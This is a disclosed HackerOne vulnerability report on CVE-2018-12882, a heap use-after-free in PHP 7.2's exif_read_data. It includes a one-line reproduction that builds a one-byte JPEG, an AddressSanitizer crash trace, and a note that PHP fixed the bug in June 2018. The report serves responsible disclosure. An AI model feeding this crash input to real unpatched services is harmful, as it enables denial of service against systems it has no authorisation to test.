 # CVE-2018-12882: heap-use-after-free in PHP 7.2 through 7.2.6, possible 7.2.7

## Report Details
- **Report ID**: 371135
- **URL**: https://hackerone.com/reports/371135
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-06-26T03:01:51.181Z
- **Disclosed**: 2018-09-01T19:06:44.284Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
`exif_read_data` in PHP 7.2 through 7.2.6 (and possibly 7.2.7) is vulnerable to a heap use after free when fed a specially crafted JPEG. Any online service that uses PHP 7.2 and reads EXIF data from uploaded JPEGs is potentially vulnerable to this flaw.

```
USE_ZEND_ALLOC=0 ./php-e147eb2 -r 'exif_read_data(file_get_contents("/full/path/to/test.jpg"));'

echo "Lw==" | base64 -d > test.jpg

od -tx1 test.jpg
0000000 2f
0000001
```

```
==15865==ERROR: AddressSanitizer: heap-use-after-free on address 0x611000000ad0 at pc 0x0000013d8100 bp 0x7fff9778bda0 sp 0x7fff9778bd98
READ of size 8 at 0x611000000ad0 thread T0
    #0 0x13d80ff in _php_stream_free /root/php-7.2.6/main/streams/streams.c:373:13
    #1 0xe4a08f in exif_read_from_file /root/php-7.2.6/ext/exif/exif.c:4411:2
    #2 0xe4a08f in zif_exif_read_data /root/php-7.2.6/ext/exif/exif.c:4482
    #3 0x18692f5 in ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER /root/php-7.2.6/Zend/zend_vm_execute.h:573:2
    #4 0x1683367 in execute_ex /root/php-7.2.6/Zend/zend_vm_execute.h:59723:7
    #5 0x1683aa5 in zend_execute /root/php-7.2.6/Zend/zend_vm_execute.h:63760:2
    #6 0x14fdb5c in zend_eval_stringl /root/php-7.2.6/Zend/zend_execute_API.c:1082:4
    #7 0x14fe3a7 in zend_eval_stringl_ex /root/php-7.2.6/Zend/zend_execute_API.c:1123:11
    #8 0x14fe3a7 in zend_eval_string_ex /root/php-7.2.6/Zend/zend_execute_API.c:1134
    #9 0x196fd32 in do_cli /root/php-7.2.6/sapi/cli/php_cli.c:1042:8
    #10 0x196dd4f in main /root/php-7.2.6/sapi/cli/php_cli.c:1404:18
    #11 0x7fb432b3382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
    #12 0x43bd68 in _start (/root/php-7.2.6/sapi/cli/php+0x43bd68)

0x611000000ad0 is located 144 bytes inside of 224-byte region [0x611000000a40,0x611000000b20)
freed by thread T0 here:
    #0 0x4e2c32 in free /b/build/slave/linux_upload_clang/build/src/third_party/llvm/compiler-rt/lib/asan/asan_malloc_linux.cc:78:3
    #1 0x13d7f53 in _php_stream_free /root/php-7.2.6/main/streams/streams.c:511:3

previously allocated by thread T0 here:
    #0 0x4e2f73 in __interceptor_malloc /b/build/slave/linux_upload_clang/build/src/third_party/llvm/compiler-rt/lib/asan/asan_malloc_linux.cc:98:3
    #1 0x147855a in __zend_malloc /root/php-7.2.6/Zend/zend_alloc.c:2829:14
    #2 0x13ed4b3 in _php_stream_fopen_from_fd_int /root/php-7.2.6/main/streams/plain_wrapper.c:186:9
    #3 0x13ed4b3 in _php_stream_fopen_from_fd /root/php-7.2.6/main/streams/plain_wrapper.c:248

SUMMARY: AddressSanitizer: heap-use-after-free /root/php-7.2.6/main/streams/streams.c:373:13 in _php_stream_free
```


This was reported to the PHP team on [3 June 2018](https://bugs.php.net/bug.php?id=76409) and marked fixed on [9 June 2018](https://bugs.php.net/bug.php?id=76409).

## Impact

Denial of service, memory corruption, information disclosure, remote code execution

## Attachments
No attachments
